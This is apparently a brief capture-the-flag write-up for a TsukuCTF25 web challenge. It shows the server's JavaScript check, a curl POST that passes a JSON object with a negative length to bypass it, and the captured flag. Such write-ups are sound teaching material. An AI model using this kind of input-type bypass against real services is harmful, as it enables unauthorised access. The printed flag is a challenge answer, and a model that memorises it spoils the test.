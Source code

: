 ```js
  const sanitized = str.replaceAll(" ", "");
  if (sanitized.length < 10) {
    return `error: no flag for you. sanitized string is ${sanitized}, length is ${sanitized.length.toString()}`;
  }
  const array = JSON.parse(sanitized);
  if (array.length < 0) {
    // hmm...??
    return FLAG;
  }
```

`curl -X POST -d 'array={"length":-1}' http://challs.tsukuctf.org:28888`で:ok:

`TsukuCTF25{l4n_l1n_lun_l4n_l0n}`
